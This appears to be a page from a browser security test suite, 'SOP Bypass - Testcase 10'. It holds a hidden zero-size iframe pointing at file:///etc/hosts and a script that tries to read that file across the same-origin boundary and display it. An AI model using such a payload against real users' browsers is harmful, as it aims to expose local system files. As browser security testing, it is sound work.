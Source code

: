 ```yaml
---
layout: default
title: SOP Bypass - Testcase 10
permalink: /sop/new/10
---
```


# SOP Bypass - Testcase 10

Cross Scheme data exposure for bypassing SOP

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">
<iframe src="https://web.archive.org/web/20180831120301if_/file:///etc/hosts" name="myIframe" width="0px" height="0px" data-ruffle-polyfilled=""></iframe>
<script>
function myfunction() {
    var myIframe = frames.myIframe;
    var fenster = window.frames[0];
    var message = fenster.document.getElementsByTagName("pre")[0].childNodes[0].nodeValue;
    var messages = message;
    messages = messages.replace(/#/g, "");
    alert(messages);
    alert(window.frames['myIframe'].document.getElementsByTagName('pre')[0].innerHTML);
}
</script>

**Note:**
In case of a cross scheme exposure, the contents of /etc/hosts file would be displayed.
